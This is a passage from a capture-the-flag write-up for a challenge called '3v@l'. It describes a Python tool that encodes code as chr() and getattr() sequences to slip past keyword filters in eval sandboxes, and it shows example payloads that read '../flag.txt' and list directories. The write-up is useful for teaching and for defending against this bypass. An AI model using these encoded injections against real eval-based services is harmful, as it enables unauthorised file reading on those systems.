 To help generate similar payloads for other scenarios, I've created a Python script that automatically converts any Python code into chr() sequences:

### Usage

**Interactive Mode:**
```bash
python payload_generator.py
```

**Command Line Mode:**
```bash
python payload_generator.py 'open("../flag.txt").read()'
```

### Features

The tool handles:
- **File operations**: Converts `open("file").read()` to proper getattr() chains
- **OS operations**: Converts `os.listdir("path")` to bypass keyword filters
- **Arbitrary strings**: Converts any text to chr() sequences
- **Educational output**: Shows character-by-character breakdown for learning

### Examples

```python
# Input: open("../flag.txt").read()
# Output: getattr(getattr(__import__(chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)),chr(111)+chr(112)+chr(101)+chr(110))(chr(46)+chr(46)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)),chr(114)+chr(101)+chr(97)+chr(100))()

# Input: os.listdir("..")
# Output: getattr(__import__(chr(111)+chr(115)), chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114))(chr(46)+chr(46))

# Input: hello
# Output: chr(104)+chr(101)+chr(108)+chr(108)+chr(111)
```

**Note**: The tool correctly handles shell quote stripping and generates payloads that match the original challenge solutions.

This tool makes it easy to generate payloads for similar eval bypass challenges and helps understand the chr() encoding technique.

## Repository Contents

This writeup includes the following essential files:

- **`README.md`** - Complete writeup and analysis of the 3v@l challenge
- **`payloads.txt`** - The original working payloads used to solve the challenge
- **`payload_generator.py`** - Python tool to generate chr() sequence payloads for similar challenges

## Learning Outcomes
